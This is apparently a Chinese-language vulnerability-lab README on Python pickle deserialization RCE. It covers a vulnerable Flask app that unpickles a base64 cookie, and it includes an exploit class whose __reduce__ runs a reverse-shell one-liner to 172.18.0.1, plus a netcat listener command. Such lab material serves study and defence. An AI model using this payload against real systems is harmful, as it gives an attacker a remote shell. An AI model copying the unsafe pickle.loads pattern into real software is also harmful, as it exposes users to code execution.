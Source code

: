 # Python Unpickle 反序列化远程代码执行漏洞

Python的pickle模块是一个流行的序列化/反序列化工具，可以将Python对象转换为字节流，反之亦然。然而，当使用pickle反序列化不受信任的数据时，可能导致任意代码执行。

当应用程序在没有适当验证的情况下使用pickle模块反序列化用户可控数据时，就会出现此漏洞。攻击者可以构造恶意序列化对象，在反序列化时在目标系统上执行任意命令。

参考链接：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
- https://docs.python.org/3/library/pickle.html#pickle.loads
- https://intoli.com/blog/dangerous-pickles/

## 环境搭建

执行以下命令启动存在漏洞的Flask应用：

```
docker compose build
docker compose up -d
```

环境启动后，可以在浏览器中访问`http://your-ip:8000`。页面将显示`Hello {username}!`，其中username是从'user' cookie中获取的。应用程序对此cookie执行base64解码和反序列化以提取"username"变量。如果没有找到有效的cookie，则默认为"Guest"。

app.py中的漏洞代码如下：

```python
@app.route("/")
def index():
    try:
        user = base64.b64decode(request.cookies.get('user'))
        user = pickle.loads(user)
        username = user["username"]
    except:
        username = "Guest"

    return "Hello %s" % username
```

## 漏洞复现

要利用此漏洞，我们需要创建一个恶意的pickle对象，该对象在反序列化时将执行任意命令。该利用使用Python的`__reduce__`方法来指定对象被反序列化时要调用的函数。

提供的利用脚本(exp.py)创建了一个恶意pickle对象，该对象建立与攻击者机器的反向shell连接：

```python
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.18.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))
```

要执行此利用，首先在您的机器上设置netcat监听器以接收反向shell：

```
nc -lvp 80
```

然后运行利用脚本，将恶意cookie发送到存在漏洞的应用程序：

```
python3 exp.py
```

当服务器反序列化恶意pickle对象时，它将执行命令并建立与您机器的反向shell连接：

![反向Shell演示](1.png)
